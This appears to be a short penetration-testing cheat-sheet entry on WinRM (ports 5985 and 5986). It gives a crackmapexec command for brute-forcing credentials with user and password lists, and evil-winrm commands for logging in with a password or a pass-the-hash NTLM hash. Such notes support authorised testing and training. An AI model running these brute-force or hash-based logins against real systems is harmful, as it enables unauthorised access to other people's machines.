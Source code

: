 # WINRM - 5985 - 5986

#### Brute force <a href="#brute-force-9" id="brute-force-9"></a>

```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

#### Connecting <a href="#connecting" id="connecting"></a>

```
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```
